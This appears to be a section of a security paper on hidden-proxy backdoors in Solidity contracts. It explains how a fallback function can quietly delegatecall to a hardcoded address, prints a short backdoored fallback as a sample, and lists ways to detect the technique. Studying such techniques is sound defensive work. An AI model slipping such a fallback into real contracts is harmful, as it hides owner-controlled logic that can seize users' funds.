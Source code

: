 \section{Hidden Proxy}

\subsection{Overview}

Here, the contract advertises functionalities through its sources but actually redirects to another contract.

One common way to achieve this is to performs \lstinline{delegateCall} on any unknown selector, via the fallback.

The exposed functionalities are not meaningful, the logic is located at a seemingly unrelated \& hidden address.

The target address can be hardcoded or passed as an argument, making it stealthier.

\subsection{Evasion Targets}

This technique stacks another layer of evasion on top those mentioned in \ref{sec:hiding-in-plain-sight}:

\begin{description}
\item[tools]{testing visible code does not bring out the malicious part}
\item[reviewers]{the proxy address may not even be in the byte / source code}
\end{description}

\subsection{Samples}

A malicious fallback can be inserted into an expensive codebase:

\begin{lstlisting}[language=Solidity]
fallback () external {
	if (msg.sender == owner()) {
		(bool success, bytes memory data) = address(0x25B072502FB398eb4f428D60D01f18e8Ffa01448).delegateCall(
			msg.data
		);
	}
}
\end{lstlisting}

\subsection{Detection \& Countermeasures}

In addition to the sources \& indicators mentioned in \ref{sec:hiding-in-plain-sight}:

\begin{description}
\item[history]{the hidden proxy address can be found in the trace logs}
\item[upgrades]{replaying transactions before / after upgrades may show significant differences}
\end{description}

